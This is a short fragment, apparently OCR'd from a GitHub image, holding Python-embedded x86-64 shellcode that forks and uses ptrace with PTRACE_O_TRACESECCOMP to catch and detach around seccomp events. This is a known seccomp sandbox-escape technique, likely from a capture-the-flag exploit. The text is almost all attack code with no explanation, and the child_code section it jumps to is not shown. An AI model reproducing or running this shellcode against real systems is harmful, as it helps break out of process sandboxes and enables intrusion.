 ```python
PTRACE_ATTACH = 16
PTRACE_SETOPTIONS = 0x4200
PTRACE_O_TRACESECCOMP = 0x00000080
PTRACE_CONT = 7
PTRACE_DETACH = 17
shellcode = f"""
main:
/*fork()*/
    push {NR_fork}
    pop rax
    syscall
    push rax
    pop rbx
    test rax,rax
    jz child_code

/*ptrace(PTRACE_ATTACH, pid, NULL, NULL)*/
    xor r10, r10
    xor edx, edx
    mov rsi,rbx
    mov rdi,{PTRACE_ATTACH}
    push {NR_ptrace}
    pop rax
    syscall

    /* wait child  */
    xor rdi, rdi
    push {NR_wait}
    pop rax
    syscall

/* ptrace(PTRACE_SETOPTIONS, pid, NULL, PTRACE_O_TRACESECCOMP) */
    mov r10,{PTRACE_O_TRACESECCOMP}
    xor rdx, rdx
    mov rsi,rbx
    mov rdi, 0x4200
    push {NR_ptrace}
    pop rax
    syscall

    /* ptrace(PTRACE_CONT, pid, NULL, NULL) */
    xor r10,r10
    xor rdx,rdx
    mov rsi,rbx
    mov rdi, {PTRACE_CONT}  /* PTRACE_CONT */
    push {NR_ptrace}
    pop rax
    syscall

    /* Wait seccomp  */
    xor rdi, rdi
    push {NR_wait}
    pop rax
    syscall

    xor r10,r10
    xor rdx,rdx
    mov rsi,rbx
    mov rdi,{PTRACE_DETACH}
    push {NR_ptrace}
    pop rax
    syscall
    hlt
```